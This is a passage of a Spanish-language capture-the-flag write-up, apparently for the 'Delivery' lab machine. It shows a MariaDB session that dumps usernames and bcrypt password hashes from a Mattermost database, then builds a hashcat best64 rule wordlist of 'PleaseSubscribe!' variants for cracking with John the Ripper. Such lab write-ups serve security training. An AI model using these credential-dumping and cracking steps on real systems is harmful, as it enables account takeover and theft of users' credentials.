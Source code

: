 ```bash
"maildeliverer@Delivery:~$ mysql -ummuser -p        "
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 199
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

"MariaDB [(none)]> show databases;    "
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

"MariaDB [(none)]> use mattermost;   "
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
"MariaDB [mattermost]> select Username,Password from Users;  "
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                      |
+----------------------------------+--------------------------------------------------------------+
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJXXXXX  |
|+----------------------------------+--------------------------------------------------------------+
10 rows in set (0.000 sec)
```
Genial Encontramos varios Hashes pero nos quedamos solo con el de root. Justo ahora podemos hacer memoria para ver lo que se nos decia en la pagina de Mattermost nada mas loguearnos
La contraseña puede ser una variante de la contraseña `"PleaseSubscribe!"`. Asique nos podemos montar un diccionario con variaciones de esta contraseña, hacemos uso de `Hascat`,  y posteriormente intentar crackearla con la 
herramienta `John The Ripper`.
```bash
# hashcat -r /usr/share/hashcat/rules/best64.rule dicc --stdout
PleaseSubscribe!
!ebircsbuSesaelP
PLEASESUBSCRIBE!
pleaseSubscribe!
PleaseSubscribe!0
PleaseSubscribe!1
PleaseSubscribe!2
PleaseSubscribe!3
PleaseSubscribe!4
PleaseSubscribe!5
PleaseSubscribe!6
PleaseSubscribe!7
PleaseSubscribe!8
PleaseSubscribe!9
PleaseSubscribe!00
PleaseSubscribe!01
PleaseSubscribe!02
PleaseSubscribe!11
..etc..
..etc..
```